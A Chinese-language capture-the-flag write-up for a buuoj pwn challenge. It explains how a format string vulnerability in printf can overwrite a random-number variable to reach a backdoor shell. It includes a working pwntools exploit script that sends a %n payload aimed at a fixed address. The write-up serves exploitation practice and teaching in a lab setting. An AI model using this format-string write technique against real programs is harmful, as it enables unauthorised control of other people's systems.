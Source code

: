 ```yaml
---
title: buuoj - 第五空间2019 决赛
date: 2023/9/19 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 通过格式化字符串漏洞注入值到程序中的随机数变量，成功获取flag。
---
```


From buuoj.

## 文件分析

下载`pwn`，NX on, PIE on, RELRO partial  
ghidra分析为32位程序

## 解题思路

找到main函数后，发现输入username和passwd，并且存在后门：当passwd==randint时，打开sh，其中randint从文件读入为随机数  
由于读入的username和passwd长度等于其数组长度，无法考虑 **栈溢出** ，转而考虑对`atoi()`的利用

> Day 2

由于username在函数`printf`中，因此应当考虑格式化字符串漏洞将指定数值注入`randint`

## EXPLOIT

经过gdb调试可知，变量`username`所在地址比printf第一个参数的地址高0x28，即10个DWORD  
构造以下exp：

```python
from pwn import *
sh = process('pwn5')

# 静态变量randint的地址为0x0804c044
sh.sendline(b'aa$12%nx' + p32(0x0804c044))
# arg10: 'aa$1', arg11: '2%nx', arg12: 0x0804c044
#即将2（成功打印aa 2个字符）写入randint中

sh.sendline(b'2')
sh.interactive()
#输入cat flag取得flag

sh.close()
```
Done.
